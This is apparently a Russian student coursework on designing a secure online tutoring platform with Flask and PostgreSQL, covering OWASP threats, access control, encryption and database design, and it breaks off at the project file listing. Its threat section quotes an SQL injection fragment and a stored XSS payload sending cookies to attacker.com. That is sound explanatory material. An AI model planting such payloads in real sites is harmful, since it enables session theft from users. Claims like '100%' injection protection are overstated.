Современный рынок дополнительного образования претерпевает фундаментальную цифровую трансформацию. Традиционные формы репетиторства, сопряжённые с очными встречами, территориальными ограничениями и наличными расчётами, стремительно вытесняются специализированными образовательными платформами (EdTech-экосистемами). Цифровая платформа представляет собой многосторонний маркетплейс, объединяющий независимых преподавателей (репетиторов), обучающихся (клиентов) и администраторов сервиса в рамках единого информационного пространства.

Функционирование подобной системы строится вокруг цепочки создания ценности, включающей несколько ключевых бизнес-процессов:
1. **Регистрация и профилирование участников.** Преподаватели формируют профессиональные цифровые визитки, указывая дисциплину, академическую квалификацию, почасовую ставку оплаты, расписание и подробное резюме (био). Обучающиеся создают профили с фиксацией персональных контактных данных для обратной связи.
2. **Поиск и сопоставление (Matching).** Пользователи осуществляют гибкую параметрическую фильтрацию по целевому предмету, ценовому диапазону, рейтингу и отзывам предыдущих учеников.
3. **Бронирование уроков и согласование времени.** Платформа предоставляет автоматизированный календарь, исключающий наложение слотов занятий и обеспечивающий прозрачный график для обеих сторон.
4. **Проведение образовательной сессии.** Интеграция защищённого канала видеоконференцсвязи (WebRTC) и текстового чата для передачи учебных материалов и оперативного взаимодействия.
5. **Финансовый биллинг и взаиморасчеты.** Проведение безопасных безналичных платежей с escrow-холдированием или прямой фиксацией оплаты, гарантирующей безопасность сделки для ученика и преподавателя.
6. **Обратная связь и репутационный аудит.** Формирование открытого доверенного рейтинга преподавателей на основе проверенных отзывов реальных клиентов, прошедших обучение.

Взаимодействие ключевых ролей системы и последовательность выполнения базовых бизнес-процессов отражены на рисунке 1.1.



*Рисунок 1.1 – Диаграмма бизнес-процессов защищённой платформы репетиторов*

Специфика информационной системы онлайн-репетиторства накладывает жёсткие требования на непрерывность доступности сервиса и целостность данных. Нарушение синхронизации календаря или сбой в видеоканале приводит к прямому финансовому и репутационному ущербу. Более того, наличие финансовых потоков и персональных данных делает образовательную систему привлекательной целью для широкого спектра кибератак.

## 1.2 Сравнительный анализ существующих систем и платформ

На российском и международном рынках функционирует ряд зрелых платформ организации репетиторских услуг. Для выявления преимуществ и недостатков существующих решений был проведён сравнительный анализ наиболее популярных сервисов: «Профи.ру», «Skyeng», «Фоксфорд» и «Preply» (таблица 1.1).

*Таблица 1.1 – Сравнительный анализ аналогов образовательных платформ*

| Критерий сравнения | «Профи.ру» | «Skyeng» | «Фоксфорд» | «Preply» | Разрабатываемая система «TutorPlatform» |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Основная специализация** | Агрегатор услуг широкого профиля | Корпоративная школа английского языка | Онлайн-школа школьной программы | Международный маркетплейс репетиторов | Специализированная защищённая платформа репетиторов |
| **Встроенная видеосвязь** | Отсутствует (сторонние Zoom/Skype) | Собственная закрытая платформа Vimbox | Собственная закрытая вебинарная платформа | Встроенный WebRTC-кабинет | Интеграция открытого WebRTC-решения Jitsi Meet |
| **Интерактивный календарь** | Внешний / ручной | Жестко регламентированный график | Фиксированное расписание курсов | Интерактивный календарь слотов | Встроенный интерактивный FullCalendar |
| **Шифрование чувствительных полей БД** | Проприетарное на уровне дисковых разделов | Корпоративные политики защиты БД | Серверное шифрование СУБД | Шифрование на уровне инфраструктуры облака | Прикладное прозрачное шифрование полей «на лету» (Fernet/AES-128) |
| **Защита пользовательского ввода (XSS)** | WAF / Базовое экранирование | Проприетарная валидация микросервисов | Проприетарные фильтры | Фильтрация клиентских скриптов | Двойной эшелон: строгий серверный санитайзинг bleach + Jinja2 |
| **Защита от манипуляций ценой (Price Tampering)** | Фиксированная комиссия | Закрытый внутренний биллинг | Пакетная фиксированная оплата | Серверный биллинг | Строгая серверная сверка тарифа перед инициализацией платежа |
| **Прозрачность и контроль данных** | Закрытая коммерческая модель | Полная изоляция пользователя | Полная изоляция пользователя | Облачный вендорлок | Открытая архитектура, локализация данных по 152-ФЗ |

Анализ существующих коммерческих систем показывает, что большинство крупных игроков используют проприетарные закрытые экосистемы, в которых клиентские данные зачастую хранятся централизованно без гранулярного шифрования конкретных персональных записей на уровне прикладного слоя (Application-Level Encryption). При этом для средних и локальных учебных центров использование подобных платформ сопряжено с высокой комиссионной нагрузкой (до 30–50% от стоимости урока) и рисками утечек баз данных в результате компрометации служебных аккаунтов техподдержки.

Разрабатываемая в курсовой работе система «TutorPlatform» ориентирована на реализацию принципа эшелонированной защиты при сохранении открытости технологического стека, нулевой зависимости от коммерческих проприетарных сервисов видеосвязи и абсолютного соблюдения норм законодательства Российской Федерации по локализации и защите персональных данных.

## 1.3 Анализ актуальных угроз информационной безопасности веб-приложений

Информационные веб-системы сферы EdTech подвержены широкому спектру киберугроз, обусловленных публичной доступностью веб-интерфейсов, разнородностью категорий пользователей и наличием финансово-транзакционных механизмов. Для формирования адекватной подсистемы защиты в рамках курсовой работы выполнен анализ актуального рейтинга уязвимостей консорциума OWASP (Open Web Application Security Project Top-10) в преломлении к специфике образовательного сервиса (рисунок 1.2).



*Рисунок 1.2 – Сопоставление векторов угроз OWASP Top-10 и механизмов защиты платформы*

Рассмотрим детально проявление указанных угроз и риски их реализации:

1. **A01: Нарушение контроля доступа (Broken Access Control / IDOR).** В веб-приложении репетиторов ученики и преподаватели оперируют персональными уроками, чатами и финансовыми данными. Уязвимость класса IDOR (Insecure Direct Object Reference) возникает, если система позволяет пользователю обратиться к чужому ресурсу (например, `/video/15` или `/chat/15`), просто изменив целочисленный идентификатор в адресной строке браузера. Отсутствие строгой серверной проверки принадлежности сессии текущего пользователя (`current_user.id`) к участникам занятия (`tutor_id` или `student_id`) позволяет злоумышленнику подслушивать видеоуроки или читать приватную переписку. Кроме того, критическую опасность представляет несанкционированный доступ к панели администратора (`/admin`), где сосредоточены функции модерации контента и просмотра журнала транзакций.
2. **A02: Криптографические ошибки (Cryptographic Failures).** Хранение паролей в открытом виде (plaintext) или с использованием устаревших, подверженных коллизиям хеш-функций (MD5, SHA-1) при утечке базы данных приводит к мгновенной компрометации всех учетных записей. Аналогично, открытое хранение телефонных номеров и идентификаторов банковских транзакций нарушает Федеральный закон № 152-ФЗ «О персональных данных». В случае хищения резервной копии базы данных открытые номера телефонов могут быть использованы для таргетированного фишинга, спам-атак и социальной инженерии.
3. **A03: Инъекции (SQL Injection).** Динамическая конкатенация строк при формировании SQL-запросов к СУБД (например, в модуле поиска преподавателей по предмету или стоимости) позволяет злоумышленнику внедрить управляющие конструкции SQL (например, `' OR 1=1 --`). Последствиями успешной атаки являются несанкционированное чтение таблиц, обход механизмов аутентификации, модификация или полное удаление данных (`DROP TABLE`).
4. **Межсайтовый скриптинг (Stored Cross-Site Scripting, XSS).** В онлайн-платформе присутствуют модули ввода неструктурированного текста: биографии преподавателей, сообщения в чатах занятий и отзывы об уроках. Если злоумышленник внедрит в поле комментария строку вида `<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>`, то при загрузке этой страницы другим пользователем (или администратором) браузер выполнит вредоносный JavaScript в контексте доверенного домена. Это может привести к краже сессионных cookie-файлов, перехвату управления интерфейсом и подмене ссылок на оплату.
5. **Межсайтовая подделка запросов (Cross-Site Request Forgery, CSRF).** Атака направлена на выполнение несанкционированных действий от имени аутентифицированного пользователя без его ведома. Если жертва посещает вредоносный сайт, содержащий скрытую форму, отправляющую POST-запрос на адрес платформы (например, удаление отзыва или изменение пароля), браузер автоматически прикрепит сохранённые сессионные cookies. Без использования одноразовых криптографических CSRF-токенов сервер не сможет отличить легитимный запрос от вредоносного.
6. **A04: Небезопасный дизайн и манипуляция стоимостью (Price Tampering).** Распространённая уязвимость коммерческих сервисов, возникающая при передаче суммы к оплате через скрытые поля клиентской HTML-формы (`<input type="hidden" name="amount" value="2500">`). Злоумышленник, используя инструменты разработчика браузера (DevTools) или прокси-перехватчик (Burp Suite), может изменить значение суммы на «1 рубль» и отправить форму. Если серверная часть слепо доверяет клиентским данным и не сверяет сумму с базой данных, происходит успешная оплата дорогостоящего занятия по фиктивной заниженной цене.

Правовые аспекты защиты информации регламентируются Федеральным законом от 27.07.2006 № 152-ФЗ «О персональных данных». Согласно ст. 19 Закона, оператор при обработке персональных данных обязан принимать необходимые правовые, организационные и технические меры для защиты персональных данных от неправомерного или случайного доступа к ним, уничтожения, изменения, блокирования, копирования, предоставления, распространения персональных данных, а также от иных неправомерных действий. Использование симметричного шифрования полей СУБД и надежного хеширования паролей позволяет обеспечить необходимый уровень защищенности персональных данных в соответствии с требованиями регуляторов.

## 1.4 Обоснование выбора архитектуры, стека технологий и инструментов защиты

Для реализации информационной системы был выбран классический трехуровневый архитектурный шаблон (Three-Tier Architecture), включающий уровень представления (клиентский интерфейс), уровень бизнес-логики (серверное веб-приложение) и уровень персистентности данных (реляционная СУБД). Данная модель гарантирует слабую связанность компонентов (Loose Coupling), независимость модулей и высокую безопасность за счёт изоляции базы данных от прямых запросов клиентов.

Выбор программных компонентов и библиотек производился на основе анализа их надежности, производительности, актуальности поддержки и соответствия требованиям информационной безопасности:

1. **Язык программирования Python (версия 3.10+).** Python является признанным стандартом в современной веб-разработке и прикладной кибербезопасности. Язык обладает строгой динамической типизацией, развитой стандартной библиотекой безопасных алгоритмов (`secrets`, `hashlib`) и обширной экосистемой аудированных библиотек защиты. Высокая скорость разработки и читаемость синтаксиса снижают вероятность допущения алгоритмических ошибок реализации.
2. **Веб-фреймворк Flask (версия 3.1+).** В отличие от монолитного фреймворка Django, микрофреймворк Flask предоставляет модульную структуру по принципу «минимального доверия». Разработчик сохраняет абсолютный гранулярный контроль над каждым HTTP-обработчиком, конвейером обработки запросов (WSGI middleware), генерацией заголовков безопасности и настройкой сессионных cookie. Flask легок в профилировании, оптимизации и безопасном конфигурировании.
3. **Реляционная СУБД PostgreSQL (версия 14+).** Промышленная СУБД корпоративного уровня с открытым исходным кодом, поддерживающая стандарты транзакционной целостности ACID, развитую систему индексов (B-Tree, GiST, GIN), строгий контроль типов данных и высокую устойчивость к параллельным нагрузкам. В отличие от встраиваемой SQLite, PostgreSQL обеспечивает надежное многопоточное обслуживание запросов, разграничение прав доступа на уровне ролей сервера и возможность горизонтального масштабирования.
4. **ORM Flask-SQLAlchemy (SQLAlchemy 2.1+).** Использование объектно-реляционного отображения исключает необходимость конструирования сырых SQL-строк вручную. Все ORM-запросы выполняются исключительно через подготовленные параметризованные выражения (Prepared Statements), где значения параметров отделены от тела SQL-команды на этапе синтаксического разбора СУБД. Это гарантирует 100% математическую защиту от атак внедрения SQL-кода во всех модулях системы.
5. **Библиотека Werkzeug (`werkzeug.security`).** Для безопасного хранения паролей применен промышленный алгоритм **PBKDF2-HMAC-SHA256** (Password-Based Key Derivation Function 2). Алгоритм реализует ключевое растяжение (Key Stretching) с автоматической генерацией криптографически стойкой 16-байтной соли для каждого пользователя. Это полностью нивелирует угрозы взлома по предвычисленным радужным таблицам (Rainbow Tables) и существенно замедляет подбор по словарям даже с применением специализированных GPU-кластеров.
6. **Криптографическая библиотека `cryptography` (спецификация Fernet).** Для защиты конфиденциальных полей базы данных применён криптографический примитив Fernet, реализующий симметричное блочное шифрование **AES** (Advanced Encryption Standard) с длиной ключа 128 бит в режиме сцепления блоков шифра (**CBC**) с дополнением по стандарту PKCS7 и обязательной аутентификацией шифротекста с помощью кода аутентификации сообщений **HMAC-SHA256**. Применение HMAC защищает зашифрованные данные от атак подмены шифротекста (Ciphertext Tampering).
7. **Библиотека санитайзинга HTML `bleach` (Mozilla).** В отличие от простых регулярных выражений, `bleach` выполняет синтаксический разбор HTML-дерева в соответствии со спецификацией HTML5. Настройка очистки `bleach.clean(text, tags=[], strip=True)` полностью удаляет любые открывающие и закрывающие дескрипторы тегов (включая `<script>`, `<iframe>`, ``, `<svg>`, `<onerror>`), предотвращая любые разновидности хранимых XSS-атак в чатах и отзывах.
8. **Расширение Flask-WTF (WTForms 3.2+).** Обеспечивает автоматическую генерацию криптографически стойких токенов Synchronizer Token Pattern, валидируемых при каждом POST/PUT-запросе. Дополнительно WTForms реализует строгую валидацию входных типов данных, длины строк и email-адресов.
9. **Модуль управления аутентификацией Flask-Login.** Реализует безопасный жизненный цикл пользовательских сессий, автоматическую привязку сессионных идентификаторов к базе данных и управление авторизацией посредством декораторов `@login_required`.
10. **Технология видеосвязи Jitsi Meet (WebRTC).** Открытая защищённая платформа аудио- и видеоконференций. Использование безопасного протокола WebRTC со сквозным шифрованием DTLS-SRTP позволяет организовывать защищённые видеоуроки без необходимости сохранения персональных видеопотоков на серверах приложения. Уникальные идентификаторы комнат генерируются с энтропией 64 бита посредством криптографического генератора псевдослучайных чисел `secrets.token_hex(8)`.

Таким образом, совокупность выбранных технологий формирует сбалансированный, масштабируемый и отказоустойчивый стек, обеспечивающий защиту приложения на всех уровнях информационной архитектуры.

# 2 ПРОЕКТНАЯ ЧАСТЬ. АРХИТЕКТУРА И МОДЕЛИРОВАНИЕ ЗАЩИЩЁННОЙ ИНФОРМАЦИОННОЙ СИСТЕМЫ

## 2.1 Общая трехуровневая архитектура системы

Проектирование защищённой информационной системы «TutorPlatform» базируется на принципах модульности, минимизации привилегий и разделения обязанностей (Separation of Concerns). Архитектура системы декомпозирована на три независимых взаимодействующих эшелона: уровень представления (Presentation Tier), уровень бизнес-логики и приложений (Application Logic Tier) и уровень хранения данных (Data Storage Tier).

На рисунке 2.1 представлена подробная схема взаимодействия компонентов трехуровневой архитектуры с выделением контуров безопасности и модулей защиты.



*Рисунок 2.1 – Трехуровневая архитектура защищенной веб-системы «TutorPlatform»*

Назначение и функции архитектурных уровней:
1. **Клиентский уровень (Presentation Tier).** Представляет собой адаптивный веб-интерфейс, функционирующий на стороне браузера пользователя (клиента). Реализован с использованием семантической разметки HTML5, стилей CSS3 (фреймворк Bootstrap 5) и скриптовых компонентов JavaScript. Для визуализации расписания интегрирована библиотека FullCalendar, формирующая интерактивные представления (сетка месяца, недели, список событий). Отображение видеоуроков осуществляется через изолированный контейнер `iframe`, взаимодействующий с медиасервером Jitsi Meet по защищенным WebRTC-каналам. Клиентская часть не содержит конфиденциальной бизнес-логики и не принимает авторизационных решений.
2. **Контур безопасности HTTP / WSGI.** Обеспечивает первичную фильтрацию и защиту сетевого трафика. Включает механизм сессионных cookie с жестко зафиксированными флагами безопасности: `HttpOnly = True` (запрет доступа к cookie из клиентского JavaScript, блокирующий кражу сессии через XSS), `SameSite = 'Lax'` (защита от несанкционированной отправки сессионных cookie при переходах со сторонних ресурсов, блокирующая CSRF), а также модуль сквозной валидации криптографических CSRF-токенов во всех POST-запросах.
3. **Уровень бизнес-логики (Application Logic Tier).** Центральный модуль системы на базе Python/Flask. Выполняет обработку маршрутов, диспетчеризацию запросов, контроль ролевой модели RBAC (декоратор `@login_required` и проверки `current_user.role`), санитизацию входящего текста библиотекой bleach, строгую сверку стоимости уроков, криптографические преобразования (симметричное шифрование Fernet и хеширование Werkzeug) и трансляцию бизнес-сущностей в ORM-модели.
4. **Уровень хранения данных (Data Storage Tier).** Реляционная база данных PostgreSQL под управлением Flask-SQLAlchemy. Доступ к базе данных изолирован от внешней сети и возможен исключительно через ORM с использованием параметризованных запросов. На физическом уровне данные разделены на открытые служебные атрибуты и зашифрованные поля, хранящие шифротексты персональных данных.

## 2.2 Ролевая модель доступа и матрица разграничения прав (RBAC)

Для обеспечения принципа наименьших привилегий (Principle of Least Privilege) в информационной системе спроектирована ролевая модель разграничения доступа (Role-Based Access Control, RBAC). Модель определяет четыре категории субъектов доступа:

1. **Гость (Guest) / Анонимный субъект.** Неаутентифицированный посетитель веб-сайта. Имеет право просматривать лендинговую страницу, каталог репетиторов и открытую информацию об их специализации и ценах. Доступ к контактным данным, бронированию, чатам, видеосвязи и оплате строго заблокирован.
2. **Ученик / Клиент (Student).** Аутентифицированный пользователь с ролью `student`. Обладает правами на заполнение собственного профиля, поиск преподавателей, подачу заявок на бронирование уроков, проведение безопасной оплаты, участие в запланированных видеоконференциях (только в рамках своих уроков), переписку в чате урока и публикацию отзывов с оценками.
3. **Репетитор / Преподаватель (Tutor).** Аутентифицированный пользователь с ролью `tutor`. Обладает расширенным профилем: указание преподаваемой дисциплины, почасовой ставки, профессиональной биографии. Имеет доступ к личному календарю занятий, участию в назначенных видеосессиях, общению в чатах с закрепленными учениками. Не имеет прав на покупку уроков у других репетиторов под данной учетной записью.
4. **Администратор (Admin).** Привилегированный субъект системы с ролью `admin`. Осуществляет мониторинг базы данных пользователей, аудит журнала финансовых транзакций (с дешифрованием идентификаторов транзакций для сверки), а также превентивную модерацию и безвозвратное удаление некорректных или спам-отзывов. Не имеет доступа к открытым паролям пользователей (пароли хранятся исключительно в виде односторонних хешей).

Формализованная матрица разграничения доступа субъектов к операциям и объектам информационной системы представлена в таблице 2.1.

*Таблица 2.1 – Матрица разграничения прав доступа (RBAC)*

| Объект / Операция системы | Гость | Ученик (Student) | Репетитор (Tutor) | Администратор (Admin) |
| :--- | :---: | :---: | :---: | :---: |
| **Просмотр главной страницы (`/`)** | ✅ | ✅ | ✅ | ✅ |
| **Регистрация нового аккаунта (`/register`)** | ✅ | ❌ | ❌ | ❌ |
| **Аутентификация в системе (`/login`)** | ✅ | ❌ | ❌ | ❌ |
| **Выход из системы (`/logout`)** | ❌ | ✅ | ✅ | ✅ |
| **Просмотр каталога преподавателей (`/tutors`)** | ✅ | ✅ | ✅ | ✅ |
| **Редактирование профиля/био (`/profile`)** | ❌ | ✅ (Базовый) | ✅ (Ставка/Био) | ❌ |
| **Бронирование урока (`/book/<id>`)** | ❌ | ✅ | ❌ | ❌ |
| **Просмотр персонального календаря (`/calendar`)** | ❌ | ✅ (Свои уроки) | ✅ (Свои уроки) | ❌ |
| **Доступ к видеокомнате (`/video/<id>`)** | ❌ | ✅ (Только участник) | ✅ (Только участник) | ❌ |
| **Обмен сообщениями в чате (`/chat/<id>`)** | ❌ | ✅ (Только участник) | ✅ (Только участник) | ❌ |
| **Оплата занятия (`/pay/<id>`)** | ❌ | ✅ (Только плательщик) | ❌ | ❌ |
| **Публикация отзыва (`/reviews/<id>`)** | ❌ | ✅ | ❌ | ❌ |
| **Доступ к панели управления (`/admin`)** | ❌ | ❌ | ❌ | ✅ |
| **Просмотр журнала оплат и сумм** | ❌ | ❌ | ❌ | ✅ |
| **Удаление/модерация отзывов** | ❌ | ❌ | ❌ | ✅ |

Управление жизненным циклом занятия и статусами платежей подчиняется строгой диаграмме состояний, представленной на рисунке 2.2.



*Рисунок 2.2 – Диаграмма состояний жизненного цикла урока и оплаты*

Переход между состояниями контролируется серверной бизнес-логикой: невозможно оплатить уже оплаченный или отмененный урок, а доступ к видеокомнате строго ограничен участниками, зафиксированными в объекте `Lesson`.

## 2.3 Проектирование базы данных

База данных информационной системы «TutorPlatform» разработана в реляционной парадигме с обеспечением третьей нормальной формы (3NF), что исключает избыточность данных и аномалии модификации.

### Концептуальная и логическая модели

В системе выделено 7 основных сущностей:
1. `User` (Пользователи системы: логин, пароль, роль, зашифрованный телефон).
2. `TutorProfile` (Профиль преподавателя: дисциплина, почасовая ставка, биография).
3. `Lesson` (Занятие: преподаватель, студент, дата/время, статус, идентификатор видеокомнаты).
4. `Review` (Отзывы: репетитор, студент, числовая оценка, очищенный текст комментария).
5. `Chat` (Чат-комната, жестко привязанная к конкретному уроку).
6. `ChatMessage` (Сообщения чата: отправитель, время, санитизированный текст).
7. `Payment` (Финансовые транзакции: урок, плательщик, сумма, зашифрованный номер транзакции, статус).

Логическая взаимосвязь сущностей представлена на ER-диаграмме (рисунок 2.3).



*Рисунок 2.3 – ER-диаграмма реляционной базы данных платформы «TutorPlatform»*

### Физическая модель базы данных

Физическая модель описывает структуру таблиц, типы данных PostgreSQL, ограничения целостности и индексы.

*Таблица 2.2 – Спецификация таблицы `users` (Пользователи системы)*
| Имя атрибута | Тип данных PostgreSQL | Ограничения целостности | Назначение и безопасность |
| :--- | :--- | :--- | :--- |
| `id` | `SERIAL` | `PRIMARY KEY` | Уникальный суррогатный ключ пользователя |
| `email` | `VARCHAR(120)` | `NOT NULL, UNIQUE` | Учетный email, B-Tree индекс для быстрого логина |
| `password_hash` | `VARCHAR(256)` | `NOT NULL` | Стойкий хеш PBKDF2-HMAC-SHA256 с солью |
| `role` | `VARCHAR(20)` | `NOT NULL, DEFAULT 'student'` | Роль в системе (student, tutor, admin) |
| `phone` | `VARCHAR(256)` | `NULLABLE` | Зашифрованный номер телефона (Fernet ciphertext) |
| `created_at` | `TIMESTAMP` | `DEFAULT CURRENT_TIMESTAMP` | Метка времени регистрации |

*Таблица 2.3 – Спецификация таблицы `tutor_profiles` (Профили преподавателей)*
| Имя атрибута | Тип данных PostgreSQL | Ограничения целостности | Назначение и безопасность |
| :--- | :--- | :--- | :--- |
| `id` | `SERIAL` | `PRIMARY KEY` | Уникальный ключ профиля |
| `user_id` | `INTEGER` | `NOT NULL, UNIQUE, FK -> users(id)` | Связь 1:1 с пользователем |
| `subject` | `VARCHAR(100)` | `NOT NULL` | Преподаваемый предмет (индексируется при поиске) |
| `hourly_rate` | `DOUBLE PRECISION` | `NOT NULL` | Базовая ставка за 60 минут занятия |
| `bio` | `TEXT` | `NULLABLE` | Описание репетитора, санитизированное через bleach |

*Таблица 2.4 – Спецификация таблицы `lessons` (Запланированные уроки)*
| Имя атрибута | Тип данных PostgreSQL | Ограничения целостности | Назначение и безопасность |
| :--- | :--- | :--- | :--- |
| `id` | `SERIAL` | `PRIMARY KEY` | Идентификатор урока |
| `tutor_id` | `INTEGER` | `NOT NULL, FK -> users(id)` | Внешний ключ преподавателя |
| `student_id` | `INTEGER` | `NOT NULL, FK -> users(id)` | Внешний ключ ученика |
| `date` | `TIMESTAMP` | `NOT NULL` | Дата и время проведения занятия |
| `status` | `VARCHAR(20)` | `DEFAULT 'scheduled'` | Статус урока: scheduled, paid, completed, cancelled |
| `video_room` | `VARCHAR(128)` | `NULLABLE` | Псевдослучайный идентификатор видеокомнаты |

*Таблица 2.5 – Спецификация таблицы `reviews` (Отзывы и рейтинги)*
| Имя атрибута | Тип данных PostgreSQL | Ограничения целостности | Назначение и безопасность |
| :--- | :--- | :--- | :--- |
| `id` | `SERIAL` | `PRIMARY KEY` | Идентификатор отзыва |
| `tutor_id` | `INTEGER` | `NOT NULL, FK -> users(id)` | Внешний ключ преподавателя |
| `student_id` | `INTEGER` | `NOT NULL, FK -> users(id)` | Внешний ключ автора отзыва |
| `lesson_id` | `INTEGER` | `NULLABLE, FK -> lessons(id)` | Ссылка на подтвержденный урок |
| `rating` | `INTEGER` | `NOT NULL, CHECK (rating BETWEEN 1 AND 5)` | Оценка по шкале от 1 до 5 звезд |
| `comment` | `TEXT` | `NULLABLE` | Отзыв, очищенный от HTML-тегов bleach |
| `created_at` | `TIMESTAMP` | `DEFAULT CURRENT_TIMESTAMP` | Дата и время публикации |

*Таблица 2.6 – Спецификация таблицы `chats` и `chat_messages`*
| Таблица / Поле | Тип данных PostgreSQL | Ограничения целостности | Описание |
| :--- | :--- | :--- | :--- |
| **chats.id** | `SERIAL` | `PRIMARY KEY` | Идентификатор диалога |
| **chats.lesson_id** | `INTEGER` | `NOT NULL, UNIQUE, FK -> lessons(id)` | Привязка чата к конкретному уроку |
| **chat_messages.id** | `SERIAL` | `PRIMARY KEY` | Идентификатор сообщения |
| **chat_messages.chat_id**| `INTEGER` | `NOT NULL, FK -> chats(id)` | Внешний ключ диалога |
| **chat_messages.sender_id**| `INTEGER` | `NOT NULL, FK -> users(id)` | Автор сообщения |
| **chat_messages.content** | `TEXT` | `NOT NULL` | Текст сообщения (очищенный от XSS) |
| **chat_messages.sent_at** | `TIMESTAMP` | `DEFAULT CURRENT_TIMESTAMP` | Метка времени отправки |

*Таблица 2.7 – Спецификация таблицы `payments` (Платёжные транзакции)*
| Имя атрибута | Тип данных PostgreSQL | Ограничения целостности | Назначение и безопасность |
| :--- | :--- | :--- | :--- |
| `id` | `SERIAL` | `PRIMARY KEY` | Идентификатор транзакции |
| `lesson_id` | `INTEGER` | `NOT NULL, UNIQUE, FK -> lessons(id)` | Оплачиваемый урок |
| `payer_id` | `INTEGER` | `NOT NULL, FK -> users(id)` | Внешний ключ плательщика (студента) |
| `amount` | `DOUBLE PRECISION` | `NOT NULL` | Сверенная с тарифом сумма списания |
| `status` | `VARCHAR(20)` | `DEFAULT 'pending'` | Статус платежа (pending, paid, failed) |
| `transaction_ref`| `VARCHAR(512)` | `NULLABLE` | Зашифрованный токен транзакции (Fernet) |
| `created_at` | `TIMESTAMP` | `DEFAULT CURRENT_TIMESTAMP` | Время фиксации платежа |

## 2.4 Спецификация персональных данных и криптографическая схема защиты

В соответствии с требованиями Федерального закона № 152-ФЗ «О персональных данных», обрабатываемая в системе информация классифицирована по категориям конфиденциальности:
- **Общедоступные данные:** email (используется для входа и связи), преподаваемый предмет, почасовая ставка, текст биографии репетитора, публичные отзывы.
- **Данные ограниченного доступа (Персональные данные):** номера телефонов пользователей, хеши паролей, персональная история занятий и платежей.
- **Критически конфиденциальные данные:** идентификаторы платёжных транзакций (`transaction_ref`), связывающие систему с внешними банковскими шлюзами.

Для исключения утечки критических данных при прямом дампе базы данных спроектирована схема шифрования на прикладном уровне (Application-Level Field Encryption). В качестве криптографического стандарта выбрана спецификация Fernet из библиотеки `cryptography`.

Структура бинарного токена Fernet строго регламентирована и состоит из следующих полей:
$$	ext{Fernet Token} = 	ext{Version (8 бит)} \parallel 	ext{Timestamp (64 бита)} \parallel 	ext{IV (128 бит)} \parallel 	ext{Ciphertext (переменная длина)} \parallel 	ext{HMAC (256 бит)}$$

Криптографические свойства используемой схемы:
1. **Симметричный ключ:** 256-битный составной ключ, закодированный в формате Base64 URL-safe. Первые 128 бит используются для кода аутентификации HMAC-SHA256, оставшиеся 128 бит служат ключом блочного шифра AES-128.
2. **Алгоритм шифрования:** AES (FIPS 197) в режиме сцепления блоков шифра CBC (Cipher Block Chaining). Для каждого нового шифрования генерируется непредсказуемый 16-байтный вектор инициализации ($IV$), что исключает совпадение шифротекстов для одинаковых телефонных номеров.
3. **Целостность и аутентичность:** Вычисление имитовставки HMAC-SHA256 по заголовку и шифротексту. Любая попытка несанкционированной модификации байтов зашифрованного поля в базе данных приводит к немедленной ошибке `cryptography.fernet.InvalidToken` и предотвращает обработку поврежденных данных.
4. **Безопасное хранение ключа:** Мастер-ключ шифрования `ENCRYPTION_KEY` никогда не сохраняется в кодовой базе репозитория и изолирован в защищённом конфигурационном файле окружения `.env`.

Интеграция шифрования в объектную модель SQLAlchemy реализована с помощью механизма свойств Python (`@property` и `@setter`), что обеспечивает абсолютную прозрачность для модулей бизнес-логики:
- При присвоении значения `user.phone = "+7 (999) 000-11-22"` вызывается метод-сеттер, шифрующий строку по алгоритму Fernet и сохраняющий шифротекст в закрытое поле `_phone`.
- При чтении атрибута `user.phone` метод-геттер извлекает шифротекст из `_phone`, дешифрует его с использованием секретного ключа и возвращает открытую строку.
- Прямой SQL-запрос `SELECT phone FROM users;` возвращает исключительно нечитаемый массив Base64-символов вида `gAAAAABm...`, гарантируя конфиденциальность при компрометации сервера БД.

## 2.5 Моделирование сценариев взаимодействия и защищённой видеосвязи

Для детального описания динамики функционирования системы разработаны диаграммы последовательности (Sequence Diagrams) для двух критически важных с точки зрения безопасности сценариев.

### Сценарий 1: Бронирование, серверная верификация суммы, оплата и генерация видеокомнаты

На рисунке 2.4 представлен процесс защищенного бронирования и проведения платежа с контролем Price Tampering.



*Рисунок 2.4 – Диаграмма последовательности бронирования, оплаты и входа в видеокомнату*

### Сценарий 2: Отправка сообщения в чат с двухконтурной нейтрализацией Stored XSS

На рисунке 2.5 проиллюстрирован механизм обработки входящих текстовых сообщений, исключающий сохранение и исполнение внедренного JavaScript-кода.

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as Пользователь / Атакующий
    participant Browser as Клиентский браузер
    participant Route as Маршрут Flask (/chat/45)
    participant Bleach as Модуль bleach.clean()
    participant DB as СУБД PostgreSQL
    participant Jinja as Шаблонизатор Jinja2
    actor Victim as Ученик / Собеседник

    Attacker->>Browser: Ввод вредоносного пейлоада:
<script>alert('XSS')</script>Привет!
    Browser->>Route: POST /chat/45 (content, CSRF-токен)
    Route->>Route: Проверка авторизации и участия в уроке
    Route->>Bleach: bleach.clean(content, tags=[], strip=True)
    Note over Bleach: Удаление дескрипторов <script> и </script>
Остается чистый текст: "alert('XSS')Привет!"
    Bleach-->>Route: Безопасная строка: "alert('XSS')Привет!"
    Route->>DB: INSERT into chat_messages (content="alert('XSS')Привет!")
    DB-->>Route: Запись сохранена
    Route-->>Browser: 302 Redirect -> /chat/45

    Victim->>Route: GET /chat/45 (Загрузка чата)
    Route->>DB: SELECT * FROM chat_messages WHERE chat_id=...
    DB-->>Route: Список сообщений
    Route->>Jinja: Рендеринг шаблона chat.html
    Note over Jinja: Второй контур защиты:
Автоматическое экранирование символов &, <, >, "
{{ msg.content }}
    Jinja-->>Victim: HTML-документ с безопасным текстом
    Note over Victim: Браузер отображает строку как обычный текст.
Скрипт не исполняется, атака XSS полностью сорвана!
```

*Рисунок 2.5 – Диаграмма последовательности нейтрализации Stored XSS-атаки в чате*

Таким образом, спроектированные архитектурные решения и криптографические цепочки обеспечивают замкнутый контур безопасности, предотвращающий реализацию угроз на всех этапах жизненного цикла информации.

# 3 ПРАКТИЧЕСКАЯ ЧАСТЬ. РЕАЛИЗАЦИЯ, ТЕСТИРОВАНИЕ И РАЗВЁРТЫВАНИЕ СИСТЕМЫ

## 3.1 Структура программных модулей проекта

Программная реализация защищённой информационной системы «TutorPlatform» выполнена в строгом соответствии с модульным принципом организации кода. Архитектура каталогов проекта обеспечивает изолированность слоёв конфигурации, моделей персистентности, валидационных форм, криптографических утилит и клиентских шаблонов.

Файловая структура серверного репозитория представлена ниже:

```
course_work/
├── app.py                  # Главный диспетчер маршрутизации и прикладной бизнес-логики
